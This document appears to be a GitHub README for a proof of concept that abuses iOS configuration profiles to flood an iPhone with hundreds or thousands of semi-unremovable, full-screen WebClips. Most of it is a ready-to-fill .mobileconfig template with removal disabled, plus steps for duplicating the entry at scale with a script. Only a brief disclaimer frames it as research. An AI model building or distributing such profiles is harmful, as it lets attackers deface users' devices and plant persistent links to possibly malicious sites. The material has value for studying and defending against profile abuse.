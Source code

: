 # iOS WebClip Spam PoC

## Overview

This repository demonstrates a proof-of-concept (PoC) for how iOS WebClips could potentially be exploited to place hundreds/thousands of semi-unremovable, potentially harmful web clips on a user's iPhone via a '.mobileconfig' configuration profile.

## ⚠️ Disclaimer

This PoC is for educational and research purposes only. Do not use this for any malicious activities. Always respect applicable laws and regulations.

## Proof of Concept

This PoC demonstrates how a malicious actor could create a configuration profile that installs multiple WebClips at once, potentially overwhelming the user's device.

### Configuration Profile Structure

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <key>PayloadContent</key>
    <array>
        <dict>
            <key>FullScreen</key>
            <true/>
            <key>IgnoreManifestScope</key>
            <true/>
            <key>IsRemovable</key>
            <false/>
            <key>Label</key>
            <string>[APP_LABEL]</string>
            <key>Icon</key>
            <data>[BASE64_ENCODED_IMAGE]</data>
            <key>Precomposed</key>
            <true/>
            <key>URL</key>
            <string>[URL]</string>
            <key>PayloadIdentifier</key>
            <string>[ID]</string>
            <key>PayloadType</key>
            <string>com.apple.webClip.managed</string>
            <key>PayloadUUID</key>
            <string>[UUID]</string>
            <key>PayloadVersion</key>
            <integer>1</integer>
        </dict>
    </array>
</dict>
</plist>
```

### Usage

1. Replace the placeholders in square brackets:
   - [APP_LABEL]: Name displayed under the WebClip icon
   - [BASE64_ENCODED_IMAGE]: Base64-encoded icon image data
   - [URL]: Website URL the WebClip opens
   - [ID]: Unique identifier for this WebClip
   - [UUID]: UUID for this WebClip

2. To add multiple WebClips, copy and paste the entire `<dict> </dict>` block within the `<array>` for each new WebClip. You have to generate a new unique PayloadIdentifier and PayloadUUID for each WebClip to avoid errors! (Use a simple Python script which changes the PayloadIdentifier and PayloadUUID for every WebClip to create hundreds/thousands.)

## References

- [Apple Configuration Profile Reference](https://developer.apple.com/business/documentation/Configuration-Profile-Reference.pdf)
- [WebClip MDM Payload Settings](https://support.apple.com/guide/mdm/web-clips-mdm54f9b61d/web)
